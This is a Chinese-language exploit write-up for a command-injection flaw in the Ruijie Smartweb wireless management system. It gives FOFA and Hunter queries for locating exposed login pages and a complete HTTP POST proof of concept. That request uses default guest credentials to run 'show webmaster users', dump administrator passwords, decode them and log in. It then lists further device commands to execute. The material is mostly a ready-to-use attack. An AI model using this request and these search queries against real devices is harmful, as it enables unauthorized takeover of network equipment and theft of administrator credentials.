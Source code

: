 # 锐捷 Smartweb管理系统 命令注入漏洞

# 一、漏洞描述
锐捷网络是一家拥有包括交换机、路由器、软件、安全防火墙、无线产品、存储等全系列的网络设备产品线及解决方案的专业化网络厂商。锐捷Smartweb系统存在远程命令执行漏洞，攻击者通过漏洞可以获取服务器权限，导致服务器失陷。

# 二、影响版本
+ 锐捷网络股份有限公司 无线smartweb管理系统

# 三、资产测绘
```java
hunterapp.name="Ruijie 锐捷 Smartweb"
fofa：title="无线smartWeb--登录页面"
```

+ 登录页面

![1693026690199-64fbe35e-4db9-4483-9ff4-60fd93531a2c.png](./img/tBfsUhE5mcdw2hI_/1693026690199-64fbe35e-4db9-4483-9ff4-60fd93531a2c-041676.png)

<font style="color:rgb(34, 34, 34);">1.执行查看用户名和密码POC，show webmaster users得到回显</font>

```plain
POST /WEB_VMS/LEVEL15/ HTTP/1.1
Host: xxx.xxx.xxx.xxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:104.0) Gecko/20100101 Firefox/104.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Authorization: Basic Z3Vlc3Q6Z3Vlc3Q=
Content-Length: 81
DNT: 1
Connection: close
Cookie: auth=Z3Vlc3Q6Z3Vlc3Q%3D; user=guest; login=1; oid=1.3.6.1.4.1.4881.1.1.10.1.3; type=WS5302

command=show webmaster users&strurl=exec%04&mode=%02PRIV_EXEC&signname=Red-Giant.
```

![1710773613327-d46e7ef8-c09c-4f7d-8b63-03f19fec9789.png](./img/tBfsUhE5mcdw2hI_/1710773613327-d46e7ef8-c09c-4f7d-8b63-03f19fec9789-719275.png)

base64解码后登录系统

![1710773670682-afc5a16e-fac1-4963-b723-b5b09ab69f6c.png](./img/tBfsUhE5mcdw2hI_/1710773670682-afc5a16e-fac1-4963-b723-b5b09ab69f6c-380750.png)

<font style="color:rgb(34, 34, 34);">可执行其它命令</font>

```plain
show running-config       查看当前生效的配置信息
show interface fastethernet 0/3   查看F0/3端口信息
show interface serial 1/2       查看S1/2端口信息
show interface                查看所有端口信息
show ip interface brief          以简洁方式汇总查看所有端口信息
show ip interface         查看所有端口信息
show version               查看版本信息

锐捷交换机命令参考：
https://www.bilibili.com/read/cv12330628
```

![1710773800917-a83c0375-e631-4ae2-a877-a5ae979a7d3b.png](./img/tBfsUhE5mcdw2hI_/1710773800917-a83c0375-e631-4ae2-a877-a5ae979a7d3b-014295.png)



> 更新: 2024-06-24 11:42:27  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/cdukm3k8snxldkns>